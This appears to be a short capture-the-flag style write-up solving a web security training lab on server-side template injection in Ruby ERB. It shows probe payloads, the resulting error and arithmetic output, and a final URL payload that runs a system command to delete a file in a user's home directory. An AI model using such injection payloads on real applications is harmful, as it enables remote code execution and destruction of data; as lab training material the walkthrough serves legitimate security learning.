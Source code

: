 
# Description

This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

# Solution

It is ERB template enginge, so try payloads for erb

```
<%= foobar %>
```

output

```
#### Internal Server Error

(erb):1:in `<main>': undefined local variable or method `foobar' for main:Object (NameError) from /usr/lib/ruby/2.7.0/erb.rb:905:in `eval' from /usr/lib/ruby/2.7.0/erb.rb:905:in `result' from -e:4:in `<main>'
```


request
```
<%= 7*7 %>
```

relust
```
49
```

Indeed this web suffers from SSTI

## Final payload

```
https://0a1100de048abf1282f7b5b40084008a.web-security-academy.net/?message=<%= system('rm /home/carlos/morale.txt') %>
```

